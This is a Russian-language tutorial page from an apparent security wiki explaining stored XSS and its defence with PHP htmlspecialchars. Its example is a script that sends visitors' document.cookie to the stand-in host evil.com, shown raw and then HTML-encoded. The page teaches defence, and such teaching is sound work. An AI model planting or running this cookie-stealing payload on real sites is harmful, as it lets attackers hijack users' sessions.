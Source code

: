 > [Главная](../index.md)  /  [XSS](index.md) / Отражённые XSS

### <a id="about"></a> [Что такое  хранимые XSS](#about)
Суть хранимой XSS заключается в том, что бэкэнд сохраняет на сервере необработанные данные полученные от пользователя и в дальнейшем не обрабатывает их.
Таким образом вредоносный html\JavaScript код сохраняется на веб сервере и в дальнейшем обрабатывается браузерами пользователей.

### <a id='example'></a> [Пример уязвимости](#example)
Злоумышленник опубликовал запись в на крупном ресурсе в которой встроили js который отправляет на его сервер куки пользователя.
```html
<script>
	var img = document.createElement('img');
	img.src = 'http://evil.com/cookies?data'+encodeURI(document.cookie);
	document.body.appendChild(img);
</script>
```
Таким образом злоумышленник получит кукисы всех пользователей которые увидят его запись.
Все просто.


### <a id="protection"></a> [Защита](#protection)
Необходимо всегда фильтровать данные полученные из вне. 
В php есть замечательная функция [htmlspecialchars](http://php.net/manual/ru/function.htmlspecialchars.php) которая поможет спастись от xss атак.
> htmlspecialchars — Преобразует специальные символы в HTML-сущности
> Производятся следующие преобразования:
> '&' (амперсанд) преобразуется в '&amp;'
> '"' (двойная кавычка) преобразуется в '&quot;' в режиме ENT_NOQUOTES is not set.
> "'" (одиночная кавычка) преобразуется в '&#039;' (или &apos;) только в режиме ENT_QUOTES.
> '<' (знак "меньше чем") преобразуется в '&lt;'
> '>' (знак "больше чем") преобразуется в '&gt;'

Таким образом, при использовании функции `htmlspecialchars` приведенный выше код будет преобразован в 
```html
&lt;script&gt;
	var img = document.createElement('img');
	img.src = 'http://evil.com/cookies?data'+encodeURI(document.cookie);
	document.body.appendChild(img);
&lt;/script&gt;
```